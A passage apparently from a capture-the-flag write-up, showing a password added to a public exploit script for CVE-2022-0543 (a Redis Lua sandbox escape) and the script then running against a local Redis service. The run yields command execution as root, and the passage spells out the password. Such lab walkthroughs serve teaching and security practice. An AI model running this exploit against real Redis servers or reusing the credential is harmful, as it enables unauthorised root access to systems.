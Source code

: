 ```

r = redis.Redis(host = ip,port = port, password="F2WHqJUz2WEz=Gqq")

```

Now it works nicely:

```

oxdf@hacky$ python cve-2022-0543.py -h
  
      [#] Create By ::
        _                     _    ___   __   ____                             
       / \   _ __   __ _  ___| |  / _ \ / _| |  _ \  ___ _ __ ___   ___  _ __  
      / _ \ | '_ \ / _` |/ _ \ | | | | | |_  | | | |/ _ \ '_ ` _ \ / _ \| '_ \ 
     / ___ \| | | | (_| |  __/ | | |_| |  _| | |_| |  __/ | | | | | (_) | | | |
    /_/   \_\_| |_|\__, |\___|_|  \___/|_|   |____/ \___|_| |_| |_|\___/|_| |_|
                   |___/            By https://aodsec.com                                           
    
Please input redis ip:
>>127.0.01
Please input redis port:
>>6379
input exec cmd:(q->exit)
>>id
b'uid=0(root) gid=0(root) groups=0(root)\n'
input exec cmd:(q->exit)
>>pwd
b'/var/lib/redis\n'
input exec cmd:(q->exit)

```
